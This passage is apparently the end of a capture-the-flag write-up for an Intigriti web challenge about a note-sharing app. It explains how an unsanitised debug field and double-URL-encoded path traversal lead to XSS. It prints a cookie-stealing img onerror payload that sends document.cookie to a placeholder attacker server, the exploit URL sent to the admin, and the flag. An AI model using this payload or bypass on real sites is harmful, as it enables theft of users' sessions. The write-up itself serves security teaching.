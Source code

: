 That's right; our `content` parameter is sanitised.

```js
document.getElementById("note-content").innerHTML = DOMPurify.sanitize(data.content);
```

Remember that other `debug` parameter?

```js
document.getElementById("debug-content").outerHTML = data.debug;
```

We never had a way to inject this content because `/api/notes/store` only saved the `note.content` to the database. Now, we can inject any property we choose into the JSON object!

```json
{
    "debug": "<img src=x onerror=fetch('https://ATTACKER_SERVER/?'+document.cookie)>",
    "status": "success"
}
```

We get the cookie!

![](images/15.png)

All that's left is to send the final URL to the admin.

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=https://ATTACKER_SERVER%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

The note is reported successfully, and we receive the flag 🚩

![](images/16.png)

Flag: `INTIGRITI{1337uplivectf_151124_54v3_7h3_d473}`

## Summary (TLDR)

Here's a quick summary of the challenge design / intended solution 🙂

> Note taking/sharing application that allows users to report notes to a moderator

-   Users can register/login and find options to create/view/report notes, as well as "contact"
-   Players will review the challenge source code and find the admin/moderator sets the flag in a cookie before visiting our "reported note"
-   The reported note URL must be in the format `http://CHALLENGE_URL/view?note=12345678-abcd-1234-5678-abc123efg456`
    -   Specifically, it must begin with `http://CHALLENGE_URL/view?note=` and end with a valid UUID, e.g. `12345678-abcd-1234-5678-abc123efg456`
-   Players will likely attempt XSS payloads on the `/create`, but the input is processed with the latest DOMPurify (it's subsequently sanitized with Bleach on the server-side too)
-   Furthermore, if players review the `/view` endpoint, they will find DOMPurify sanitizes the note content before rendering
-   They should also notice the CSRF-protected API endpoint to fetch (and store) notes
    -   It looks for a valid UUID (but only at the end of the string, like `/report`)
    -   It checks if the note ID includes `../` (hint at CSPT)
    -   There's a `data.debug` variable that doesn't get sanitized by DOMPurify (hint at XSS)
-   Basically, the note ID is passed from a user-controllable parameter (GET) to the API. The `../` check can be bypassed with double-URL encoding (it will be normalized before the API call)
